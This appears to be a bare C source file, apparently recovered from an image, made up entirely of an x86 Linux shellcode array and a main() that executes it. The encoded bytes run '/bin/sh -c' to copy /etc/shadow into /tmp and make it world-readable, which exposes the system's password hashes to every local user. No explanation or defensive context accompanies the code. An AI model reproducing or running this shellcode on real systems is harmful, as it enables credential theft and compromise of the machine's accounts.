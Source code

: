char darkcode[] = &quot;\xeb\x30\x5e\x31\xc0\x88\x46\x07\x88\x46\x0a\x88\x46\x36\x89\x76\x37\x8d\x5e\x08\x89\x5e\x3b\x8d\x5e\x0b\x89\x5e\x3f\x89\x46\x43\xb0\x0b\x89\xf3\x8d\x4e\x37\x8d\x56\x43\xcd\x80\x31\xdb\xb0\x01\xcd\x80\xe8\xcb\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x23\x2d\x63\x23\x63\x70\x20\x2f\x65\x74\x63\x2f\x73\x68\x61\x64\x6f\x77\x20\x2f\x74\x6d\x70\x20\x3b\x20\x63\x68\x6d\x6f\x64\x20\x37\x37\x37\x20\x2f\x74\x6d\x70\x2f\x73\x68\x61\x64\x6f\x77\x23\x41\x41\x41\x41\x42\x42\x42\x42\x43\x43\x43\x43\x44\x44\x44\x44&quot;;
int main (int argc, char **argv)
{
  int (*dark) ();
	dark = (int (*) ()) darkcode;
	(int) (*dark) ();

}
